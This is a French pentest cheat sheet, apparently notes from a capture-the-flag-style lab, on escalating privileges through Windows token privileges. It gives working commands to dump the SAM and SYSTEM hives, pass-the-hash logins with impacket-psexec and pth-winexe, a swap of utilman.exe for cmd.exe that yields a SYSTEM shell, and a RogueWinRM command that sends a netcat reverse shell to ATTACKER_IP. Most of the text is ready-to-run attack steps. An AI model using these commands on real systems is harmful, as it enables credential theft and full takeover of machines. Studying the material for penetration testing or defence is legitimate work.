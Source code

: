 Les privilèges sont des droits dont dispose un compte pour effectuer des tâches spécifiques liées au système.

Vérifiés ses privilèges :

```c
whoami /priv
```

Vous pouvez trouver une liste complètedes privilèges exploitables sur : [Priv2Admin](https://github.com/gtworek/Priv2Admin)

# SeBackup / SeRestore
Permettent aux utilisateurs de lire et d'écrire dans n'importe quel fichier du système, en ignorant toute DACL en place

Disposant de ce pouvoir, un attaquant peut élever de manière triviale les privilèges sur le système en utilisant de nombreuses techniques. Comme dumper SAM et SYSTEM pour extraire le hachage du mot de passe de l'administrateur local.


```c
reg save hklm\system C:\Users\THMBackup\system.bak
reg save hklm\sam C:\Users\THMBackup\sam.bak
```

Suivre [[Post Exploitation/Data Exfiltration/Windows#SMB|Windows Data Exfiltration - SMB]] pour telecharger les fichier `.bak`

Nous pouvons enfin utiliser le hachage de l'administrateur pour effectuer une attaque Pass-the-Hash et accéder à la machine cible avec les privilèges SYSTEM :

```sh
impacket-psexec -hashes LM_HASH:NT_HASH administrator@10.10.71.216
```

```
pth-winexe -U 'administrator%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```

# SeTakeOwnership
Permet à un utilisateur de s'approprier n'importe quel objet du système, y compris les fichiers et les clés de registre

Nous allons abuser `utilman.exe`pour élever les privilèges. Utilman est une application Windows intégrée utilisée pour fournir des options de facilité d'accès pendant l'écran de verrouillage.

Pour remplacer utilman, on va commencer par s'en approprier :

```c
takeown /f C:\Windows\System32\Utilman.exe
```

Donner à l'utilisateur toutes les autorisations sur `utilman.exe` :

```c
icacls C:\Windows\System32\Utilman.exe /grant {USERNAME}:F
```

Après cela, nous remplacerons utilman.exe par une copie de cmd.exe :

```c
cd C:\Windows\System32\
copy cmd.exe utilman.exe
```

Pour déclencher utilman, :
- Verrouiller l'écran depuis le bouton démarrer
- cliquez sur le bouton "Ease of Access (Option d'ergonomie)"

# SeImpersonate / SeAssignPrimaryToken
Permettent à un processus de se faire passer pour d'autres utilisateurs et d'agir en leur nom. L'usurpation d'identité consiste à pouvoir générer un processus ou un thread dans le contexte de sécurité d'un autre utilisateur.

Si nous parvenons à prendre le contrôle d'un processus avec les privilèges `SeImpersonate` ou `SeAssignPrimaryToken`, nous pouvons usurper l'identité de n'importe quel utilisateur se connectant et s'authentifiant à ce processus.

Pour élever ses privilèges à l'aide de tels comptes, un attaquant a besoin des éléments suivants : 

1. Générer un processus afin que les utilisateurs puissent s'y connecter et s'y authentifier pour que l'usurpation d'identité se produise. 

2. Trouvez un moyen de forcer les utilisateurs privilégiés à se connecter et à s'authentifier auprès du processus malveillant généré.

> Si, pour une raison quelconque, le service WinRM ne s'exécute pas sur le serveur victime, un attaquant peut démarrer un faux service WinRM sur le port 5985 et intercepter la tentative d'authentification effectuée par le service BITS au démarrage

Si l'attaquant dispose des privilèges SeImpersonate, il peut exécuter n'importe quelle commande au nom de l'utilisateur qui se connecte, qui est SYSTEM.

1. Démarrer un écouteur netcat pour recevoir un shell inversé
2. Exécuter l'exploit

```sh
c:\Temp\RogueWinRM.exe -p "C:\Temp\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

[Exploit RogueWinRM](https://github.com/antonioCoco/RogueWinRM)

